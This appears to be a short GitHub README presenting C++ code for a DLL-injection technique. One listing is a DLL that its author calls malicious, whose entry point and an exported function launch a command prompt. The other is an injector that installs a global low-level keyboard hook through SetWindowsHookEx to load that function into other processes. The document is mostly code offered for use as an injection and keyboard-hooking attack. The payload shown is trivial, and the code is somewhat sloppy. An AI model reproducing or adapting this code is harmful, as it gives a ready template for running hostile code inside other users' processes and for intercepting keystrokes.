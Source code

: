 # SetWindowHookEx-and-inject-a-dll
After creating a DLL there is malicious function in DLL and we write a c++ which hook keyboard and inject the specific function in to main process of c++ program or even in other processes.
<h2>DLL file.</h2>

	#include "pch.h"
	#include <iostream>
	using namespace std;

	BOOL APIENTRY DllMain( HMODULE hModule,
			       DWORD  ul_reason_for_call,
			       LPVOID lpReserved
			     )
	{
	    switch (ul_reason_for_call)
	    {
	    case DLL_PROCESS_ATTACH:
		system("start cmd");
	    case DLL_THREAD_ATTACH:
		system("start cmd");
	    case DLL_THREAD_DETACH:
		system("start cmd");
	    case DLL_PROCESS_DETACH:
		system("start cmd");
		break;
	    }
	    return TRUE;
	}
	BOOL APIENTRY injext(HMODULE hModule,
	    DWORD  ul_reason_for_call,
	    LPVOID lpReserved
	)
	{
	    system("start cmd");
	    return true;
	}

<br>
  <h2>Injector</h2>

	#include <iostream>
	#include <Windows.h>

	int main()
	{
		HMODULE library = LoadLibraryA("load.dll");
		HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "injext");

		HHOOK hook = SetWindowsHookEx(WH_KEYBOARD_LL, hookProc, library, 0);
		Sleep(5000);
		UnhookWindowsHookEx(hook);

		return 0;
	}
